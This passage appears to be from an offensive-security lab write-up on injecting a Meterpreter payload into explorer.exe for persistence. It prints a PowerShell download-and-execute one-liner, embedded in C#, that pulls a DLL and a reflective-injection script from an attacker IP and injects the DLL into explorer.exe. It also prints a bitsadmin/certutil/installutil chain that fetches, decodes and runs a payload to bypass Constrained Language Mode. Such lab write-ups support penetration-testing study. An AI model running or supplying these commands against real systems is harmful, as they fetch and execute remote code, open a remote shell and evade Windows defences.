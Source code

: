 ## Process Injection
Even though, we can get a reverse shell, we need to inject into a process like explorer.exe for persistence.
We will be, once again, using the Invoke-ReflectivePEInjection.ps1 script for this.

For this, we will use the same code in Visual Studio as for our CLM bypass executable, but edit the cmd string to the following:
```csharp
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.135/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.49.135/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```

Compiling and executing the code gives us an executable which we can execute similar to the last section, and this will give us a shell in explorer.exe as follows:
```cmd
bitsadmin /Transfer myJob2 http://192.168.49.135/CLMByDLLinj-b64.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\CLMByDLLinj.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\CLMByDLLinj.exe
```

Running the command gives us a meterpreter shell.